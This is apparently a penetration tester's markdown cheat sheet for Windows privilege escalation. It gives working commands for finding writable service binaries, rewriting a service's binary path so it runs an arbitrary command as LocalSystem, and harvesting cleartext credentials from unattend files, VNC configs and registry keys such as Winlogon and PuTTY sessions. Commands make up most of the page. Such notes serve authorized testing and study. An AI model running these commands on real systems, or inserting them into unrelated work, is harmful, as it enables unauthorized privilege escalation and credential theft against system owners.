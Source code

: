 # OS

Lots of time can be saved by running winPeas or a different script but below is how you can check stuff manualy and lots of stuff not done by the scripts

SAMBA? look under `445-smb` in the `Enumeration/port_enumeration` folder

Watson - https://github.com/rasta-mouse/Watson
WinPeas - https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS


## LDAP - Perform Windows domain enumeration via LDAP
https://github.com/ZeroPointSecurity/Domain-Enumeration-Tool


## Writable Service Executables
```
for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> c:\windows\temp\services.txt
```
If wmic is not available:
```
sc query state= all | findstr "SERVICE_NAME:" >> servicenames.txt
FOR /F "tokens=2 delims= " %i in (servicenames.txt) DO @echo %i >> services.txt
FOR /F %i in (services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> path.txt
```
Then use either accesschk.exe, cacls, or icacls to list the access permissions associated with each service executable:
```
for /f eol^=^"^ delims^=^" %a in (c:\windows\temp\services.txt) do cmd.exe /c accesschk.exe /accepteula -qv "%a" >> accesschk.txt

for /f eol^=^"^ delims^=^" %a in (c:\windows\temp\services.txt) do cmd.exe /c cacls "%a" >> cacls.txt

for /f eol^=^"^ delims^=^" %a in (c:\windows\temp\services.txt) do cmd.exe /c icacls "%a" >> icacls.txt
```
With accesschk results, look for the following permissions:

Permission	Use Case
SERVICE_ALL_ACCESS	Can do anything.
SERVICE_CHANGE_CONFIG	Can reconfigure the service binary.
WRITE DAC	Can reconfigure permissions, leading to SERVICE_CHANGE_CONFIG.
WRITE_OWNER	Can become owner, reconfigure permissions.
GENERIC_WRITE	Inherits SERVICE_CHANGE_CONFIG
GENERIC_ALL	Inherits SERVICE_CHANGE_CONFIG
With cacls and icacls, look for (F)ull Access, (M)odify access, (W)rite-only access, (WDAC) write DAC, or (WO) write owner.

## Writable Service Objects(priv esclatation)
Use accesschk.exe to find writable service objects:
```
accesschk.exe /accepteula -uwcqv "Authenticated Users" *
```
```
sc qc <service>
```
Update the service binary path:
```
sc config <service> binpath= "<command>"
```
Update the name of the account which a service runs as:
```
sc config upnphost obj= ".\LocalSystem" password= ""
```
Stop / Start a service:
```
wmic service <service> call stopservice
wmic service <service> call startservice

net stop <service>
net start <service>

sc stop <service>
sc start <service>
```
If the service fails to start because of a dependency, you can start the dependency manually, or remove the dependency:
```
sc config <service> depend= ""
```
All-in-one comnand:
```
sc config <service> binPath= "<command>" depend= "" start= demand obj= ".\LocalSystem" password= ""
```
## Cleartext Passwords
```
findstr /si password *.txt *.xml *.ini
```
```
dir /s *pass* == *cred* == *vnc* == *.config*
```
```
findstr /spin "password" *.*
```

Common files which contain passwords:
```
type c:\sysprep.inf
type c:\sysprep\sysprep.xml
type c:\unattend.xml
type %WINDIR%\Panther\Unattend\Unattended.xml
type %WINDIR%\Panther\Unattended.xml
dir c:*vnc.ini /s /b
dir c:*ultravnc.ini /s /b
dir c:\ /s /b | findstr /si *vnc.ini
```
Search for passwords in the registry:
```
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"
reg query HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4 /v password
```
